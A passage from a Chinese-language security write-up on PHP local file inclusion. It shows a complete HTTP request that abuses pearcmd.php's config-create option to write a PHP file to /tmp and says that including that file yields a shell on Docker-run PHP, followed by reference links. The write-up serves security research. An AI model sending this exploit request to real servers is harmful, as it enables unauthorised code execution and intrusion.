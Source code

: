 看看pear中有哪些可以利用的参数：

![](https://storage.tttang.com/media/attachment/2021/11/01/2de99d32-2d60-43af-8ee5-0111fdc52f38.png)


第一眼就看到config-create，阅读其代码和帮助，可以知道，这个命令需要传入两个参数，其中第二个参数是写入的文件路径，第一个参数会被写入到这个文件中。

所以，我构造出最后的利用数据包如下：

```
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
Host: 192.168.1.162:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

![](https://storage.tttang.com/media/attachment/2021/11/01/8f2dd9ad-a7bd-456d-9c8e-f4a9cd7770cd.png)


发送这个数据包，目标将会写入一个文件`/tmp/hello.php`，其内容包含`<?=phpinfo()?>`：

![](https://storage.tttang.com/media/attachment/2021/11/01/3b439ba8-a064-4348-a23d-6f96d6d5bb77.png)


然后，我们再利用文件包含漏洞包含这个文件即可getshell：

![](https://storage.tttang.com/media/attachment/2021/11/01/e12aef87-9aea-41bb-a13f-6e0932e6b9cc.png)


最后这个利用方法，无需条件竞争，也没有额外其他的版本限制等，只要是Docker启动的PHP环境即可通过上述一个数据包搞定。

## [0x07 参考链接](#toc_0x07)


*   [https://dl.packetstormsecurity.net/papers/general/LFI\_With\_PHPInfo_Assitance.pdf](https://dl.packetstormsecurity.net/papers/general/LFI_With_PHPInfo_Assitance.pdf)
*   [http://www.madchat.fr/coding/php/secu/onsec.whitepaper-02.eng.pdf](http://www.madchat.fr/coding/php/secu/onsec.whitepaper-02.eng.pdf)
*   [https://stackoverflow.com/questions/24190389/findfirstfile-undocumented-wildcard-or-bug](https://stackoverflow.com/questions/24190389/findfirstfile-undocumented-wildcard-or-bug)
*   [https://stackoverflow.com/questions/2563316/findfirstfileex-wildcard-characters](https://stackoverflow.com/questions/2563316/findfirstfileex-wildcard-characters)
*   [https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-\_fsrtl\_advanced\_fcb\_header-fsrtlisnameinexpression](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-_fsrtl_advanced_fcb_header-fsrtlisnameinexpression)
*   [https://www.jianshu.com/p/dfd049924258](https://www.jianshu.com/p/dfd049924258)
*   [https://bugs.php.net/bug.php?id=77231](https://bugs.php.net/bug.php?id=77231)
*   [http://www.ietf.org/rfc/rfc3875](http://www.ietf.org/rfc/rfc3875)